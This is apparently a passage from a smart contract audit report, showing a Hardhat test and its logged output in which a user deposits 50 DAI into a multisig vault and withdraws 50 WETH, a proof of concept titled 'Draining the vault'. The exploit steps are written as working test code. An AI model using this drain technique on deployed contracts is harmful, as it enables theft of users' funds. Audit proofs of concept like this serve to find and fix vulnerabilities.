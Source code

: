 ```


      console.log("Alice deposits 50 DAI into the vault");
      await dai.connect(alice).approve(vaultContract.address, ethers.utils.parseUnits('50', 18));
      await vaultContract.connect(alice).deposit(ethers.utils.parseUnits('50', 18), dai.address);

      
      await logState(dai, weth, bob, alice, vaultContract);


      console.log("Alice withdraw 50 WETH from the vault");
      await vaultContract.connect(alice).withdraw(wethAddress);
      await logState(dai, weth, bob, alice, vaultContract);
    });
```

```
    MULTSIGVAULT
        Deployment
    -----------------------
    Bob     :>> DAI: 100000.0 => WETH: 0
    Alice   :>> DAI: 50.0 => WETH: 0.0
    Vault   :>> DAI: 0.0 => WETH: 0.0
    -----------------------
    Bob has 100,000 DAI and deposits it into the vault
    -----------------------
    Bob     :>> DAI: 0.0 => WETH: 0
    Alice   :>> DAI: 50.0 => WETH: 0.0
    Vault   :>> DAI: 100000.0 => WETH: 0.0
    -----------------------
    Alice see that and swap 100,000 DAI to 51 WETH
    -----------------------
    Bob     :>> DAI: 0.0 => WETH: 0
    Alice   :>> DAI: 50.0 => WETH: 0.0
    Vault   :>> DAI: 0.0 => WETH: 51.186998459175843701
    -----------------------
    Alice deposits 50 DAI into the vault
    -----------------------
    Bob     :>> DAI: 0.0 => WETH: 0
    Alice   :>> DAI: 0.0 => WETH: 0.0
    Vault   :>> DAI: 50.0 => WETH: 51.186998459175843701
    -----------------------
    Alice withdraw 50 WETH from the vault
    -----------------------
    Bob     :>> DAI: 0.0 => WETH: 0
    Alice   :>> DAI: 0.0 => WETH: 50.0
    Vault   :>> DAI: 50.0 => WETH: 1.186998459175843701
    -----------------------
        ✔ Draining the vault (4420ms)
```

## High Findings

